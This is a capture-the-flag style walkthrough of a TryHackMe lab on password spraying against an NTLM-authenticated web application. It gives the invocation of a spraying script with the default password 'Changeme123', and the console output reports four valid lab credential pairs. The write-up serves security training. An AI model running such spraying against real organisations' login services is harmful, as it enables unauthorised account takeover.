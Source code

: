 ## Password Spraying
- We will use password Spraying technique for a found password, for e.g., found a default password for new user in OSINT search. 
- In password spraying, unlike brute-forcing, a password is used against different users, this will prevent the account from lockout.
- We will password spray a website `http://ntlmauth.za.tryhackme.com/`
- We already have a custom password spraying script made by the room author .

```
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

> userfile - Textfile containing our usernames - "usernames.txt"
> fqdn - Fully qualified domain name associated with the organisation that we are attacking - "za.tryhackme.com"
> password - The password we want to use for our spraying attack - "Changeme123"
> attackurl - The URL of the application that supports Windows Authentication - "http://ntlmauth.za.tryhackme.com"

- Started the script and found 4 valid credential pairs

```console
❯ python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com  | tee password_spry.log
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```

- Logged on to found this webpage

```html
<html>
  <head>
  </head>
  <body>
    Hello World
  </body>
</html>
```
